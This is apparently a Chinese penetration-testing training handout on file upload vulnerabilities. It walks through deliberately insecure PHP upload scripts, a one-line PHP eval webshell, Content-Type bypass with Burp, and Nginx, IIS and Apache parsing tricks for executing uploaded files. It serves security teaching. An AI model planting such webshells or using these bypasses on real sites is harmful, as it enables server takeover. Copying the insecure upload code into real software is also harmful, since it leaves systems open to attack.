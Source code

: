# 米斯特白帽培训讲义 漏洞篇 文件上传

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)

> 整理：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0

我们首先看一下文件上传的流程图。

![](http://ww4.sinaimg.cn/large/841aea59jw1faydcmhhyaj20c809mwek.jpg)

其中，浏览器通过上传页面将文件储存到服务器中。一般这些上传页面都会有限制（比如限制格式为`jpg/gif/png`等等，或者限制文件大小）。

我们所关注的这个上传页面，一旦限制了文件就可能导致我们的渗透测试失败。那么真的完全失败了吗？后面会讲到很多方法，代码本身我们突破不了，但是我们可以用这些方法来绕过限制。

漏洞页面大致分为两种，一种是不限制任何格式，随意上传，这种现在比较少了。另一种是限制`Content-type`，虽然它限制了文件类型，但我们就可以突破它。

## 任意文件上传

看一下这段代码：

```php
<form action="" method="POST" ENCTYPE="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo '上传成功！';
else
    echo '上传失败！';
```

首先是一个文件上传表单，我们可以看到表单中多了一个`enctype`属性，是因为文件上传的格式和之前不一样，不加这个就无法识别了。

然后会检查是否接受到了上传文件，没有接收到就直接结束。之后会打印出文件信息，便于我们调试。之后将上传文件的名称和保存上传文件的目录拼接，将文件从临时目录移动到这个目录。最后输出成功或失败信息。

将其保存为`upfile.php`后，我们首先访问它并尝试上传一个文件。我们把一句话`<?php @eval($_POST['a']) ?>`写入`1.php`，然后把它上传到服务器。

![](http://ww2.sinaimg.cn/large/841aea59jw1faydcsou88j20i805jwen.jpg)

于是我们看到上传成功。

![](http://ww1.sinaimg.cn/large/841aea59jw1faydd7i90hj20hm0bz0t9.jpg)

我们可以看到打印出的文件信息，其中：

+   `userfile`是这个文件在数组中的索引，也是表单中的文件上传输入框的名称。
+   `name`是这个文件的文件名。
+   `type`是这个文件的类型。
+   `tmp_name`是这个文件的临时完整路径。
+   `error`是错误代码。
+   `size`是文件大小。

之后，尝试直接访问所上传的文件，发现访问成功。

![](http://ww2.sinaimg.cn/large/841aea59jw1faydde1z61j20ht065q30.jpg)

然后我们就可以拿菜刀连接了。

![](http://ww1.sinaimg.cn/large/841aea59jw1fayddj2gysj20se0fj3zk.jpg)

我们可以看到连接成功，那么我们就成功地 GetShell 了。

## 存在限制

如果`upfile.php`的内容变成这样：

```php
<form action="" method="POST" enctype="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
if(@$_FILES['userfile']['type'] != "image/gif"){
        echo "对不起，我们只允许上传GIF格式的图片!!";
        exit;
}
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo "上传成功！";
else
    echo "上传失败！";
```

这段代码多出来的东西就是，它首先验证了文件类型，如果是`gif`则放过，不是则拦截。那么根据`multipart`编码类型，`type`这个东西在浏览器生成之后，是可以改的。我们可以通过 Burp 拦截并修改这个值。

首先我们打开 Burp，配置代理，访问`upfile.php`。之后开启拦截模式并上传一个文件：


我们拦截之后，找到`Content-Type`，发现他是`application/oct-stream`，我们把它改成`image/gif`，之后放行（可能需要多次，在我这里是这样）。

![](http://ww1.sinaimg.cn/large/841aea59jw1fayddqscl3j20ok0j8tan.jpg)

![](http://ww2.sinaimg.cn/large/841aea59jw1fayde2a2rej20ok0j8q4v.jpg)

然后我们可以看到上传成功，上传目录中出现了我们上传的文件。

![](http://ww4.sinaimg.cn/large/841aea59jw1fayde6e6gtj20vs0o6wfh.jpg)

![](http://ww1.sinaimg.cn/large/841aea59jw1faydee1rguj20r20fv74y.jpg)

## Nginx 解析漏洞

如果服务器是 Nginx，我们可以直接上传图片格式，利用解析漏洞拿 Webshell。漏洞成因是，由于 Nginx 部分版本程序自身的漏洞，导致可以解析并执行非脚本文件。

假设存在漏洞的站点上有一张图片，URL 地址为：

```
www.xxx.com/logo.jpg
```

我们正常访问时，Nginx 会把它当做非脚本，直接读取并传给客户端。但是如果我们这样访问：

```
www.xxx.com/logo.jpg/a.php
```

他就会把`logo.jpg`当做 PHP 文件来执行。或者是

```
www.xxx.com/logo.jpg%00.php
```

也会导致图片执行，这个是 7 月中旬爆出的解析漏洞。

要利用这个漏洞，我们可以随便找一张图片，在里面插入一句话：

![](http://ww1.sinaimg.cn/large/841aea59jw1fayf99bpp3j21e00u9ah4.jpg)

我们将其上传之后，访问图片的 URL，确认上传成功。

![](http://ww2.sinaimg.cn/large/841aea59jw1fayf9fpguwj20lg093t8w.jpg)

然后我们利用该解析漏洞构造 URL，发现也能够成功访问，也能拿菜刀来连接。

![](http://ww2.sinaimg.cn/large/841aea59jw1fayf9kn7juj21ds08edhg.jpg)

![](http://ww2.sinaimg.cn/large/841aea59jw1fayf9ncmg7j20zj0jd0ty.jpg)

## IIS 解析漏洞

IIS 5.x/6.0 主要存在两个解析漏洞，第一个是目录解析：

```
/a.asp/b.jpg
```

其中`a.asp`是目录，`b.jpg`是真实存在的文件，那么`b.jpg`会当做`asp`文件来执行。这个漏洞需要我们能够创建目录。

第二个是文件解析，也就是分号截断：

```
a.asp;.jpg
```

这个文件的扩展名在上传时是`jpg`，但是上传之后，IIS 会把它当做`asp`文件来解析。

另外，在IIS 中，可执行脚本的扩展名除了`asp`之外，还有`asa`、`cdx`、`cer`。许多网站往往就过滤不全，一定要重视！！

## Apache 解析漏洞

Apache 的解析漏洞比较有意思，它从右到左解析扩展名，如果碰到不认识的扩展名，则继续往下解析。比如我们上传`a.php.x1.x2.x3`，它按照`x3 x2 x1 php`的顺序解析扩展名，但是他不认识后面三个，所以只能将其解析为`php`。但在文件上传时，文件的扩展名一直是`x3`，所以可以绕过一些校验。

## 参考

+   [文件解析漏洞总结](http://blog.csdn.net/wizardforcel/article/details/50695896)
